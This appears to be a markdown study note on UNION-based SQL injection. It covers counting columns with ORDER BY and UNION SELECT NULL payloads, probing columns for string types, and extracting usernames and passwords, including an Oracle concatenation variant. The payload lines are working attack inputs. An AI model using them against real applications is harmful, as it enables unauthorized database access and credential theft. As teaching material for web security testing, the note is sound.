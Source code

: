 For a UNION query to work, two key requirements must be met:
- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

## Determine num of columns returned
There are two effective methods to determine how many columns are being returned
- One method involves injecting a series of ORDER BY clauses and incrementing the specified column index __until an error occurs__

> 'ORDER BY' is better for determining the num of returned columns because Oracle requires 'FROM dual' part after UNION SELECT  
> Example of sqli for oracle db: ' UNION SELECT NULL FROM DUAL--  
> __However sometimes servers may be protected against ORDER BY and may not be protected agianst UNION__
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
- The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values: 
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
If the number of nulls does not match the number of columns, the database returns an error

### Finding columns with a useful data type
After you determine the number of required columns, you can probe each column to test whether it can hold string data.
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
If the column data type is not compatible with string data, the injected query will cause a database error

In this way you can figure out which columns return string data. Let's say second column contains string data, in that case we can put password under the second column 
```
' UNION SELECT username, password FROM users--
```

## Retrieving multiple values within a single column
In some cases the query in the previous example may only return a single column. 
On Oracle you could submit the input: 
```
' UNION SELECT username || '~' || password FROM users--
```
Different databases use different syntax to perform string concatenation. For more details, see the SQL injection cheat sheet.
